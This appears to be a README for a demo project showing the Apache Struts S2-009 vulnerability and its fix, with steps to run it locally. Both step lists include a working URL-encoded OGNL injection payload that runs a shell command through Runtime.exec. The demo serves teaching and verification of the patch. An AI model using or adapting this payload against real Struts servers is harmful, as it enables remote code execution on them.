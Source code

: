 S2-009 example

Affected Struts 2.3.1.1 and below

Solved with Struts 2.3.1.2

http://localhost:8080/s2-009/example/HelloWorld.action

Show vulnerability:
- change Struts2 version to 2.3.1.1
- start application: `mvn jetty:run`
- list file in `/tmp/` folder to show there is no file hello.jsp
- open browser
- paste url: http://localhost:8080/s2-009/example/HelloWorld.action?message=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/hello.jsp%27%29%29%28meh%29&z[%28message%29%28%27meh%27%29]=true
- list `/tmp/` folder again to show that hello.jsp file was created
- stop Jetty

Show solution:
- change Struts2 version to 2.3.1.2
- start application: `mvn jetty:run`
- list file in `/tmp/` folder to show there is no file hello.jsp
- open browser
- paste url: http://localhost:8080/s2-009/example/HelloWorld.action?message=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/hello.jsp%27%29%29%28meh%29&z[%28message%29%28%27meh%27%29]=true
- list `/tmp/` folder again to show there is no file hello.jsp
- stop Jetty
